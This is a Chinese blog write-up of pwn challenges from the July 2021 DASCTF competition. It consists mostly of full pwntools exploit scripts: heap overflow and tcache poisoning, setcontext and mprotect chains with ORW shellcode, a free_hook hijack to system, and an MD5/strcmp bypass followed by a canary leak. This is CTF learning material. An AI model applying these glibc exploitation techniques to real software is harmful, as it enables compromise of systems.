<!--yml
category: 未分类
date: 2022-04-26 14:41:49
-->

# 2021dasctf七月赛 pwn题解复现（strdup,md5,protect,setcontext)_N1ch0l4s的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_46521144/article/details/119509660](https://blog.csdn.net/weixin_46521144/article/details/119509660)

前言：算是第一次参加**自己觉得能力匹配的比赛**之前的0ctf,tctf的，感觉自己就像个混子，2021国赛参加的时候全程都在学没学过的堆，所以其实也没觉得自己能力赶得上。然而第一次打比赛嘛，总归是不可能会做的，不过也算是知道了，比赛也没有想象中的那么恐怖。
本篇文章参考的wp
[https://kr0emer.com/2021/08/04/DASCTF%20July%20X%20CBCTF%204th%20pwn/](https://kr0emer.com/2021/08/04/DASCTF%20July%20X%20CBCTF%204th%20pwn/)

## Easyheap

保护全开，也开了沙箱，但是同时也开了一块RWX的段，地址是固定的0x23330000。这显然就是orw的shellcode了。


这很容易想到之前buuoj刷题做到过的一道题。就是利用堆，控制写入mmap的地址和hook函数的地址，实现Hook执行mmap中的shellcode。本题十分类似。

### 漏洞点

这里漏洞点在于add()中的strdup()

这里一共允许添加10个块，满足tcache-poisoning的条件
注意这里strdup是根据输入内容大小来决定申请内容的大小的。也就是说，如果size输入0x500但是只输入一个p64(a)，我们将得到一个0x20的堆块和0x500的edit长度，这就近似相当于无限堆溢出了。可以很轻松的构造内存overlapping来解决。所以思路就是：泄露unsortedbin地址+内存overlapping。

### 解法1：写入mmap，常规解法

常规方法tcache-poisoning, 添加8个块之后删掉

```
padding='a'*0x90 

add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x20,'protect')

for i in range(0,7):
    delete(i)
delete(8) 
```

之后可以取出一块小于0x90的块，会从unsortedbin中切割（因为unsortedbin中只剩下了一块，并且刚刚使用过）注意到从unsortedbin中取出的时候没有清空这个块，地址就会残留在上面。可以借此输出

```
edit(7,padding + 'a'*(8+6)+'bb')

show(7)
io.recvuntil('aabb')
libc_info=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print "libc_info----->" + hex(libc_info)
libc_addr=libc_info-0x3ebca0
print "libc_addr----->" + hex(libc_addr)
malloc_hook=libc_addr+libc.sym['__malloc_hook']
free_hook=libc_addr+libc.sym['__free_hook']

print "malloc_hook----->" + hex(malloc_hook)
print "free_hook----->" + hex(free_hook) 
```

之后可以常规的按照劫持tcache的做法，写道malloc_hook以及目标地址上
首先是写入shellcode，这里也复习了一下shellcraft，又忘记格式了。当然自己写汇编是最好的。

```
mmap_addr=0x23330000

shellcode=""
shellcode+=asm(shellcraft.open("flag.txt"))
shellcode+=asm(shellcraft.read(3,mmap_addr+0x100,0x100))
shellcode+=asm(shellcraft.write(1,mmap_addr+0x100,0x100))

edit(7,padding+p64(0)+p64(0xa1))
add(0x500,padding)
add(0x500,padding)
delete(0)
edit(1,padding+p64(0)+p64(0xa1)+p64(mmap_addr))

add(0x500,padding)
add(0x500,shellcode.ljust(0x90,'a')) 
```

之后呢，再修改tcache下一个地址为free_hook并写入0x23330000即可，方法和上面是一样一样的。

```
padd2='a'*0x20
add(0x500,p64(0xdeadbeef).ljust(0x20,'a'))

add(0x500,padd2)
delete(4)
edit(3,p64(0)*3+p64(0x31)+p64(free_hook))

add(0x500,padd2)
delete(9)

add(0x500,padd2)
edit(5,p64(mmap_addr)) 
```

之后就delete就可以了。

完整exp

```
from pwn import *
io=process('./Easyheap')
elf=ELF('./Easyheap')
libc=elf.libc
context.log_level='debug'
context.arch="amd64"

def add(size,Content):
    io.recvuntil('>> :')
    io.sendline(str(1))
    io.recvuntil('Size')
    io.sendline(str(size))
    io.recvuntil('Content')
    io.send(Content)

def delete(index):
    io.recvuntil('>> :')
    io.sendline(str(2))
    io.recvuntil('Index:')
    io.sendline(str(index))

def edit(index,Content):
    io.recvuntil('>> :')
    io.sendline(str(4))
    io.recvuntil('Index:')
    io.sendline(str(index))
    io.recvuntil('Content:')
    io.send(Content)

def show(index):
    io.recvuntil('>> :')
    io.sendline(str(3))
    io.recvuntil('Index:')
    io.sendline(str(index))

def debug():
    gdb.attach(io,"brva 0xC18")
    add(0x100,'bad')

padding='a'*0x90 

add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x20,'protect')

for i in range(0,7):
    delete(i)
delete(8) 

edit(7,padding + 'a'*(8+6)+'bb')

show(7)
io.recvuntil('aabb')
libc_info=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print "libc_info----->" + hex(libc_info)
libc_addr=libc_info-0x3ebca0
print "libc_addr----->" + hex(libc_addr)
malloc_hook=libc_addr+libc.sym['__malloc_hook']
free_hook=libc_addr+libc.sym['__free_hook']

print "malloc_hook----->" + hex(malloc_hook)
print "free_hook----->" + hex(free_hook)

mmap_addr=0x23330000

shellcode=""
shellcode+=asm(shellcraft.open("flag.txt"))
shellcode+=asm(shellcraft.read(3,mmap_addr+0x100,0x100))
shellcode+=asm(shellcraft.write(1,mmap_addr+0x100,0x100))

edit(7,padding+p64(0)+p64(0xa1))
add(0x500,padding)
add(0x500,padding)
delete(0)
edit(1,padding+p64(0)+p64(0xa1)+p64(mmap_addr))

add(0x500,padding)
add(0x500,shellcode.ljust(0x90,'a'))

padd2='a'*0x20
add(0x500,p64(0xdeadbeef).ljust(0x20,'a'))

add(0x500,padd2)
delete(4)
edit(3,p64(0)*3+p64(0x31)+p64(free_hook))

add(0x500,padd2)
delete(9)

add(0x500,padd2)
edit(5,p64(mmap_addr))

delete(5)

io.interactive() 
```

### 解法2：调用mprotect

这个解法是模仿2021ciscn中的silverwolf。那道题也是orw，但是没有本题mmap开辟的一段空间，因此需要自己调用mprotect来使得程序中部分空间可执行。这种方法需要劫持free_hook为setcontext+0x53的位置，之后在下一个要free的块上布置好setcontext需要的寄存器的内容，free掉这个块，但是在寄存器布置好之后，还需要接着控制程序执行流，包括**读入shellcode**和**跳转到shellcode执行**两部分。其中读入shellcode使用的依然是汇编执行，而跳转则是在读入shellcode执行syscall之后，使用jmp (addr)的方式。具体的下面分析。
前面的泄露地址和获取相关libc也是一样的
首先是写入free_hook的内容

```
shellcode_addr=free_hook &0xFFFFFFFFFFFFF000
shellcode_read="""
mov rdi,0
mov rsi,{}
mov rdx,0x1000
mov rax,0
syscall
jmp rsi
""".format(shellcode_addr)

add(0x500,padding)
add(0x500,padding)
edit(2,p64(set_context_53)+p64(free_hook+0x18)*2+asm(shellcode_read)) 
```

注意写入free_hook的是setcontext+53,后面两个free_hook+0x18都是指向shellcode_read的指针，是为了ret过后能够执行到写的shellcode
这里需要对setcontext+0x53做一点解释,这位师傅写的很详细了
[https://blog.csdn.net/A951860555/article/details/118268484](https://blog.csdn.net/A951860555/article/details/118268484)

我在这里也解释一下，就是在0x35这里有一句这个话
注意到rsp,rcx均可控，并且有一个push rcx的操作，后面又ret了，表示我们可以修改执行流。
这里需要布置好被free掉的块的栈布局

```
frame=SigreturnFrame()
frame.rsp=free_hook+0x10 
frame.rdi=shellcode_addr
frame.rsi=0x1000
frame.rdx=7

frame.rip=libc.sym['mprotect']+libc_addr 
edit(0,str(frame)) 
```

这里是调用了mprotect,借助setcontext布置参数。注意rsp是target_code（free_hook+0x18的前面一句，不过也是shellcode+0x18,实际上写什么都行）因为有两个ret，其实也是调试出来的。
后面就去执行read的shellcode，读入到libc去除末尾的部分，这部分被开辟成rwx的。之后一个jmp rsi直接执行shellcode。
完整exp

```
from pwn import *
io=process('./Easyheap')
elf=ELF('./Easyheap')
libc=elf.libc
context.log_level='debug'
context.arch="amd64"

def add(size,Content):
    io.recvuntil('>> :')
    io.sendline(str(1))
    io.recvuntil('Size')
    io.sendline(str(size))
    io.recvuntil('Content')
    io.send(Content)

def delete(index):
    io.recvuntil('>> :')
    io.sendline(str(2))
    io.recvuntil('Index:')
    io.sendline(str(index))

def edit(index,Content):
    io.recvuntil('>> :')
    io.sendline(str(4))
    io.recvuntil('Index:')
    io.sendline(str(index))
    io.recvuntil('Content:')
    io.send(Content)

def show(index):
    io.recvuntil('>> :')
    io.sendline(str(3))
    io.recvuntil('Index:')
    io.sendline(str(index))

def debug():
    gdb.attach(io,"brva 0xC18")
    add(0x100,'bad')

padding='a'*0x90 

add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x20,'protect')

for i in range(0,7):
    delete(i)
delete(8) 

edit(7,padding + 'a'*(8+6)+'bb')

show(7)
io.recvuntil('aabb')
libc_info=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print "libc_info----->" + hex(libc_info)
libc_addr=libc_info-0x3ebca0
print "libc_addr----->" + hex(libc_addr)
malloc_hook=libc_addr+libc.sym['__malloc_hook']
free_hook=libc_addr+libc.sym['__free_hook']
set_context_53=libc_addr+libc.sym['setcontext']+53
print "malloc_hook----->" + hex(malloc_hook)
print "free_hook----->" + hex(free_hook)

edit(7,padding+p64(0)+p64(0xa1))
add(0x500,padding)
add(0x500,padding)
delete(0)
edit(1,padding+p64(0)+p64(0xa1)+p64(free_hook))

shellcode_addr=free_hook &0xFFFFFFFFFFFFF000

shellcode_read="""
mov rdi,0
mov rsi,{}
mov rdx,0x1000
mov rax,0
syscall
jmp rsi
""".format(shellcode_addr)

add(0x500,padding)
add(0x500,padding)
edit(2,p64(set_context_53)+p64(free_hook+0x18)*2+asm(shellcode_read))

frame=SigreturnFrame()
frame.rsp=free_hook+0x10 
frame.rdi=shellcode_addr
frame.rsi=0x1000
frame.rdx=7

frame.rip=libc.sym['mprotect']+libc_addr 
edit(0,str(frame))

gdb.attach(io,"brva 0xEDB")
delete(0) 

sleep(0.5)
io.send(shellcode)

io.interactive() 
```

## RealNoOutput

这题一看是write全部写到fd为4的内容去了。
漏洞点这里很隐蔽


这里一共可以申请9个块，但是size_store只有八个空间，那么第九个块的size就会溢出到下一个ptr_store中。乍一看好像没什么，溢出到ptr_store里面还会导致edit（0）的时候出现问题，但是程序中还有一句



这一句很有意思，但是对于这个指针位置的修改方法，被反编译了，使用keypatch还不能得到很好的patch效果，可能是哪里做错了。

只能使用动态调试了，在gdb中，动态查看PIE下地址的值方式是

```
x $rebase(addr) 
```

多次查看可以看出，这里检查的就是我们edit,show等的chunk是不是大于等于第一个chunk的地址，这也就避免了一些越界修改。
但是结合上面size的溢出，很容易想到就可以把这里qword_3560改成chunk8的size,从而绕过这个检验。因此不会更新ptr, **在edit中的ptr就是原先在栈帧中保存的ptr**,这样就造成了一次use-after-free，劫持tcache即可，如下图

```
 add(1,0x68,'aaaa')
add(2,0x68,'bbbb')
add(3,0x10,'/bin/sh\x00')
add(8,0x10,'aaaa')

delete(1)
edit(2,'aaaa')
delete(2)
edit(0,p64(free_hook)) 
```

完整exp

```
from pwn import *
io=process('./realNoOutput')
context.log_level='debug'
elf=ELF('./realNoOutput')
libc=elf.libc

def add(index,size,content):
    io.sendline(str(1))
    sleep(0.1)
    io.sendline(str(index))
    sleep(0.1)
    io.sendline(str(size))
    sleep(0.1)
    io.send(content)

def edit(index,content):
    io.sendline(str(3))
    io.sendline(str(index))
    io.sendline(content)

def show(index):
    io.sendline(str(4))
    io.sendline(str(index))

def delete(index):
    io.sendline(str(2))
    io.sendline(str(index))

def debug():
    gdb.attach(io,"brva 0x1861")
    add(9,16,'aaa')

for i in range(0,8):
    add(i,0x90,'aaaa')

for i in range(0,8):
    delete(7-i)

add(0,0x30,'a'*8)

show(0)
libc_info=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print "libc_info----->" + hex(libc_info)
libc_base = libc_info - 0x1ebc70
print "libc_base----->" + hex(libc_base)
free_hook=libc_base+libc.sym['__free_hook']
print "free_hook----->" + hex(free_hook)
system=libc_base+libc.sym['system']

add(1,0x68,'aaaa')
add(2,0x68,'bbbb')
add(3,0x10,'/bin/sh\x00')
add(8,0x10,'aaaa')

delete(1)
edit(2,'aaaa')
delete(2)
edit(0,p64(free_hook)) 

one_shot=[0xe6c7e,0xe6c81,0xe6c84]
add(1,0x68,'aaaa')
add(2,0x68,p64(system))

delete(3)

io.interactive() 
```

## canary3

这道题漏洞倒也是很明显，就是一开始绕过md5的部分实在是很服气，如下图的check部分

一开始还不知道这是md5检验，看到这个加密函数人直接麻了。后来知道md5加密是有特征的。如上图,并且在final中也会调用update

另外关键加密部分函数都长这样，可能知道IDA反编译出来的特征感觉之后分析会好一些

但是这道题不能简单爆破求解，注意到比较md5的时候采用的方法

所以是不能直接过这个判断，需要用别的方法。
注意到上面在read 0x20个字符之后，会在末尾追加00，这样导致了如果s1开头也是00，并且往s输入0x20个字符，就会把s2的开头也变为00，就可以绕过strcmp,因为strcmp只会检测到00的位置截止。
那么还需要生成一个00开头的md5字符串，可以用以下代码生成

```
import os
import hashlib
import time

while True:
    md5 = hashlib.md5()
    key = os.urandom(0x20)
    md5.update(key)
    res = md5.hexdigest()
    if(res[:2]=="00"):
        print("find:",res,key)
        break 
```

之后输入这个和admin即可。
后面就是常规的泄露code base和canary，由于程序中有backdoor函数，只需要调用就可以了
exp

```
from pwn import *
io = process('./canary3')
elf=ELF('./canary3')
libc=elf.libc
context.log_level='debug'

passwd = b'\x81,t.\xb5\x84J\x94\xa0y\xb6\x97\x02\xd1u1Or\x8c\xe9\x1bq\xf9\xe4\xa8\x82\x9f!\x860\xe1\x10'
uname = "admin"
io.recvuntil('username:')
io.send(uname)
io.recvuntil('password:')
io.send(passwd)

sleep(0.5)

io.sendline(str(2))
payload = 'a'
io.send(payload)

io.sendline(str(1))
code_info = u64(io.recvuntil('\x55')[-6:].ljust(8,'\x00'))
code_base = code_info - 0x2561
print "code_base----->" + hex(code_base)

io.sendline(str(2))
payload='a'*0x17+'b'*2
io.send(payload)
sleep(0.5)

io.sendline(str(1))
io.recvuntil('aabb')
canary = u64(io.recv(7).ljust(8,'\x00'))
canary = canary<<8
print "canary----->" + hex(canary)

backdoor = 0x239F

payload2='a'*0x18+p64(canary)+p64(0)+p64(code_base+backdoor)

io.sendline(str(2))

io.send(payload2)

io.sendline(str(3))

io.interactive() 
```

## 总结

第一道题学到了strdup的漏洞利用，mprotect和setcontext的联合使用：利用setconetxt设置栈帧，放入free_hook中，执行read函数读入shellcode并执行shellcode（虽然不是必须的），这个应该是比较万金油的方法了。
第二道题中知道了：再碰到一些看似很不正常的判断条件（或者感觉是多余的）时，要仔细分析，和漏洞可能有很大关系。
第三题中学到了md5加密方法，知道了在strcmp下的一些比较漏洞以及py生成md5的方法。
暑假快要过完了orz，时间真快